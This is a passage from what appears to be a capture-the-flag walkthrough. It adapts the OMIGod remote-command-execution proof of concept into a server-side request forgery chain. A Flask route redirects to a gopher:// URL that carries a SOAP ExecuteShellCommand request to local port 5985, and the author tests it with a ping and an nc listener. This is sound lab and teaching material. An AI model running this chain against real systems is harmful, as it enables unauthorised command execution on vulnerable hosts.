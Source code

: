 This is important because it means I need to add two bytes to the content length or it will be off, which will break things (this took a bunch of troubleshooting to figure out).

#### OMIGod POC

To get the OMIGod POC into this, I’ll grab the `DATA` variable from the POC, replacing the command with `{}` to fill in later. I’ll also create a template for a `REQUEST`, with content length and body to populate later (and the `DATA` template truncated here with a `...[snip]...` for readability):

```

DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" 
...[snip]...
xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">    
         <p:command>{}</p:command>    
         <p:timeout>0</p:timeout>    
      </p:ExecuteShellCommand_INPUT>    
   </s:Body>    
</s:Envelope>    
"""    
    
REQUEST = """POST / HTTP/1.1\r
Host: localhost:5985\r
User-Agent: curl/7.74.0\r
Content-Length: {length}\r
Content-Type: application/soap+xml;charset=UTF-8\r
\r
{body}"""    

```

The HTTP headers need to have `\r\n` for each line, but Python on Linux only treats newlines as `\n`, so I need to add the `\r`.

Now I’ll update the route to pass the new redirect:

```

@app.route('/')    
def root():    
    cmd = "ping -c 1 10.10.14.6"    
    data = DATA.format(cmd)
    req = REQUEST.format(length=len(data)+2, body=data)
    enc_req = quote(req, safe='')
    return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)

```

`quote` will URL-encode the string.

I’m still redirecting to myself so I can see what it looks like, and it looks good:

```

oxdf@parrot$ nc -lnvp 5985
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5985
Ncat: Listening on 0.0.0.0:5985
Ncat: Connection from 10.10.11.117.
Ncat: Connection from 10.10.11.117:47688.
POST / HTTP/1.1
Host: localhost:5985
User-Agent: curl/7.74.0
Content-Length: 1663
Content-Type: application/soap+xml;charset=UTF-8

```